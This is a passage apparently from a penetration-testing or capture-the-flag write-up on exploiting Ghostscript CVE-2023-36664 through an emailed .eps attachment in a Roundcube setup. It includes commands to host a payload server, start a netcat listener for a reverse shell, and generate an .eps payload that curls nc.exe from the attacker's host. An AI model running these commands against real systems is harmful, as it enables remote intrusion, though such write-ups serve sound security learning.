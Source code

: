The tester visited the "Sent" and "Trash" folders and they were empty.

## Vulnerabilities

No CVEs were found for Roundcube 1.6.4 at the time of the test.

### CVE-2023-36664

The email indicates an `.eps` file will be processed by GhostScript. Searching for GhostScript vulnerabilities found CVE-2023-36664. An exploit exists at https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.

## Exploitation

The exploit allows the tester to run arbitrary commands. A reverse shell is ideal. The tester performed two exploits. One to upload the NetCat program (`nc.exe`) and a second to invoke it.

Hosting the payload requires a web server on the attacking machine.
```shell
$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
```

The tester used NetCat on the attacking machine to receive the shell.
```shell
$ nc -lvnp 9090
Listening on [any] 9090 ...

```

The tester downloaded the exploit, generated the first payload, and attached to a reply on the target machine.

```shell
$ git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.git

$ cd CVE-2023-36664-Ghostscript-command-injection

$ python3 ~/Workspace/CVE-2023-36664-Ghostscript-command-injection/CVE_2023_36664_exploit.py --generate --payload "curl -o nc.exe http://10.10.14.108:8090/nc.exe" --filename shell2a --extension eps
```
